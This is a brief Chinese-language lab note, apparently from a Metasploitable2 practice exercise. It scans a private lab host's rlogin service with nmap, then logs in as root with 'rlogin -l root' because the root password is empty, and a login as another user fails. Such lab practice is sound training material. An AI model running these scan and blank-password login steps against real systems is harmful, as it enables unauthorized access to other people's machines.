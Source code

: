 # 512_rlogin

nmap扫描

>  nmap -v -p 512 -T4 --version-all --script all 10.10.10.6

![image-20210318231041369](../../image/meteaspolitale2/image-20210318231041369.png)

得到可rlogin的用户名单

用root登录

> rlogin -l root 10.10.10.6

![image-20210318231132787](../../image/meteaspolitale2/image-20210318231132787.png)

登录成功

其他用户

> rlogin -l netadmin 10.10.10.6

![image-20210318231359560](C:/Users/Cite-Arkssac/AppData/Roaming/Typora/typora-user-images/image-20210318231359560.png)

登录失败

因为root是空密码所以可以直接登录成功

